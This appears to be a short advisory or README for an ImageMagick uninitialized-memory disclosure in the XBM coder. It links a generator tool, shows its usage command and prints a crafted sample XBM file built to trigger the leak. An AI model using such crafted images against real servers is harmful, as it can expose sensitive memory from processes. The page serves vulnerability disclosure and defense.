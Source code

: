 # Data Processing Libraries. Part I


# ImageMagick memory leak at XBM coder

ReadXBMImage in coders/xbm.c in ImageMagick before 7.0.8-9 (https://github.com/ImageMagick/ImageMagick/commit/216d117f05bff87b9dc4db55a1b1fadb38bcb786) leaves data uninitialized when processing an XBM file that has a negative pixel value. 
If the affected code is used as a library loaded into a process that includes sensitive information, that information sometimes can be leaked via the image data. 
Exploit for ImageMagick's uninitialized memory disclosure in xbm coder.  
Auto-generation tool is [xbmdump](https://github.com/d0ge/xbmdump)
Usage

```bash
xbmdump gen 128x128 dump.xbm
```

### Sample image

```
#define -_width 16
#define -_height 16
static char -_bits[] = {
  0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, };
```

### Severity: Medium - High
Severity level depends on the web server environment.

